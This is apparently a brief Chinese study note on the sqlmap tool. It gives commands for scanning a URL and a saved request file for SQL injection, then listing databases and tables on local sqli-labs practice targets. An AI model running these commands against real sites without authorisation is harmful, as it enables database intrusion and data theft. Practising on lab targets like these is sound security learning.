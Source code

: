![image.png](/upload/2021/12/image-2b222cb254a2483eac14c1d169a5f093.png)


#### sqlmap
> [ppt](https://docs.google.com/presentation/d/1RTnsCI0q02FCXouj4AYTvYbsAS-vo97keWnRdWRe-pQ/edit?usp=sharing)

![image.png](/upload/2021/12/image-4b322e227b804a6cbd763c0f357ee550.png)


使用
```bash
# 扫单个url, url都加双引号就对了
sqlmap.py -u "http://192.168.1.104/sql1/Less-1/?id=1&uid=2"

# 扫文件里的
sqlmap.py -r desktop/1.txt

# show databases;
sqlmap.py -u http://127.0.0.1/sql/Less-1/?id=1 --dbs

# use security; show tables;
sqlmap.py -u http://127.0.0.1/sql/Less-1?id=1 -D security --tables 

# desc security.users;
```